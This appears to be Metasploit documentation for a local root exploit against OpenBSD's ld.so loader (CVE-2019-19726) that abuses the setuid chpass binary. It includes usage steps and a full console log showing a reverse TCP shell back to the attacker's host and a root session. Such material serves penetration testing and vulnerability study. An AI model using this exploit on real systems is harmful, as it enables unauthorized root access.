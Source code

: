 ## Description

  This module exploits a vulnerability in the OpenBSD `ld.so`
  dynamic loader (CVE-2019-19726).

  The `_dl_getenv()` function fails to reset the `LD_LIBRARY_PATH`
  environment variable when set with approximately `ARG_MAX` colons.

  This can be abused to load `libutil.so` from an untrusted path,
  using `LD_LIBRARY_PATH` in combination with the `chpass` set-uid
  executable, resulting in privileged code execution.


## Vulnerable Application

  This module has been tested successfully on:

  * OpenBSD 6.1 (amd64)
  * OpenBSD 6.6 (amd64)


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. `use exploit/openbsd/local/dynamic_loader_chpass_privesc`
  4. `set SESSION <SESSION>`
  5. `check`
  6. `run`
  7. You should get a new *root* session


## Options

  **SESSION**

  Which session to use, which can be viewed with `sessions`

  **CHPASS_PATH**

  Path to chpass (default: `/usr/bin/chpass`)


## Scenarios

### OpenBSD 6.1 GENERIC#19 amd64

  ```
  msf5 > use exploit/openbsd/local/dynamic_loader_chpass_privesc 
  msf5 exploit(openbsd/local/dynamic_loader_chpass_privesc) > set verbose true
  verbose => true
  msf5 exploit(openbsd/local/dynamic_loader_chpass_privesc) > set session 1
  session => 1
  msf5 exploit(openbsd/local/dynamic_loader_chpass_privesc) > check

  [+] Patch 013_ldso is not present
  [+] cc is installed
  [*] The service is running, but could not be validated.
  msf5 exploit(openbsd/local/dynamic_loader_chpass_privesc) > set lhost 172.16.191.165
  lhost => 172.16.191.165
  msf5 exploit(openbsd/local/dynamic_loader_chpass_privesc) > run

  [*] Started reverse TCP double handler on 172.16.191.165:4444 
  [+] Patch 013_ldso is not present
  [+] cc is installed
  [+] Found libutil.so name: libutil.so.12.1
  [*] Writing '/tmp/.86MXG.c' (316 bytes) ...
  [*] Max line length is 4096
  [*] Writing 316 bytes in 1 chunks of 1145 bytes (octal-encoded), using printf
  [*] Compiling /tmp/libutil.so.12.1 ...
  [*] Writing '/tmp/.DRbqHJ.c' (602 bytes) ...
  [*] Max line length is 4096
  [*] Writing 602 bytes in 1 chunks of 2170 bytes (octal-encoded), using printf
  [*] Compiling /tmp/.DRbqHJ ...
  [*] Writing '/tmp/.2bowjnW1' (139 bytes) ...
  [*] Max line length is 4096
  [*] Writing 139 bytes in 1 chunks of 470 bytes (octal-encoded), using printf
  [*] Launching exploit...
  [*] Accepted the first client connection...
  [*] Accepted the second client connection...
  [*] Command: echo Y6H5kRiGDyQjzQKI;
  [*] Writing to socket A
  [*] Writing to socket B
  [*] Reading from sockets...
  [*] Reading from socket B
  [*] B: "Y6H5kRiGDyQjzQKI\r\n"
  [*] Matching...
  [*] A is input...
  [*] Command shell session 2 opened (172.16.191.165:4444 -> 172.16.191.205:43611) at 2019-12-13 04:03:22 -0500
  [+] Deleted /tmp/.86MXG.c
  [+] Deleted /tmp/libutil.so.12.1
  [+] Deleted /tmp/.DRbqHJ.c
  [+] Deleted /tmp/.DRbqHJ
  [+] Deleted /tmp/.2bowjnW1

  id
  uid=0(root) gid=0(wheel) groups=1001(test)
  uname -a
  OpenBSD openbsd-6-1.localdomain 6.1 GENERIC#19 amd64

  ```

